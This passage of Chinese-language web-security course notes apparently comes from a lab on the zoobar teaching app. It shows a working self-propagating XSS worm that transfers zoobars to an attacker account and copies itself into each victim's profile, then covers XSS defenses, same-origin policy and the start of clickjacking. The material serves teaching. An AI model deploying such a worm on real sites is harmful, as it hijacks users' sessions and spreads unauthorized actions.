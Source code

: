 ```
# 此处为 xss 蠕虫代码
<span id=worm>
<script>
xmlhttp=new XMLHttpRequest();
xmlhttp.open("POST","https://www.zoobar.com/transfer.php",false);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("zoobars=2&recipient=xsszoobar&submission=Send");

var str="<span id=worm>";
str+=document.getElementById("worm").innerHTML+"</span>";		# 构建字符串 str，内容是这串代码本身
var turnForm=document.createElement("form");				# 构建 form，格式与 profile 页面的一致
document.body.appendChild(turnForm);
turnForm.method="post";
turnForm.action="/index.php";
var newElement=document.createElement("input");
newElement.setAttribute("name","profile_update");
newElement.setAttribute("type","hidden");
newElement.setAttribute("value",str);
turnForm.appendChild(newElement);
var newElement2=document.createElement("input");
newElement2.setAttribute("name","profile_submit");
newElement2.setAttribute("type","hidden");
newElement2.setAttribute("value","Save");
turnForm.appendChild(newElement2);
turnForm.submit();											# 提交 form
</script>
</span>
```

![](https://github.com/Yudreamy/classlater/blob/master/web/exercise3/picture/xssworm1.PNG)

![](https://github.com/Yudreamy/classlater/blob/master/web/exercise3/picture/xssworm2.PNG)

类似于 CSRF，XSS蠕虫也是利用浏览器在发 http 请求的时候会自动带上 cookie 导致服务器端无法识别是用户自己的请求还是恶意代码，所以设置 token 验证依然可以进行防御，或者禁用一些标签例如`<script>` 就可以了。

总结下 XSS 存在的三个条件：1. 网站应用程序必须接受用户的输入信息；2. 用户的输入会被网站用来创建动态内容；3. 用户的输入验证不充分。针对的防御主要思路：输入过滤，输出转义。

* 使用白名单黑名单，过滤特殊符号，例如，从用户的输入中删除 `<script>`;
* httponly cookie，仅在传输 HTTP/HTTPS 请求时才使用 httponly 会话 cookie;
* SOP(same origin policy)，同源策略，SOP 通过源 `<protocol,domain,port>` 识别每个网站，为每个源创建上下文，存储相关资源。作用：1. 保护 cookie（浏览器保存了很多网站的 cookie，SOP 保证 cookie 只会被提供给产生它的源）；2. 防止 JavaScript 访问 iframe 中其他源的内容；3. 防止 Ajax 跨域请求（使用 CORS 进行安全和应用的折中，在后台代码中加入相应的头部，例 header("Access-Control-Allow-Origin:*");）。


## 点击劫持

攻击者覆盖多个透明或不透明层（需要不同页面间层次的切换），以诱使用户点击另一页上的按钮或链接，从而在原始界面上的点击被劫持到了另一个界面。任何网站都可以通过 `<iframe>` 在内容页嵌入其他网站，`Style：z-index` 可以设置元素的层次顺序（(x,y,z)，z 对应三维空间的高度），具有较大 z-index 的元素位于具有较低值元素前面；Opacity 定义了 iframe 的可见百分比（1.0 完全可见；0.0 完全不可见）。区别以下三种方式。

```
opacity:0~1				# 整个不可见，占空间，点击有反应
visibility:hidden		# 整个不可见，占空间，点击无反应
display:none			# 直接把元素从整个文档流中抽离了，不显示也不占空间
```

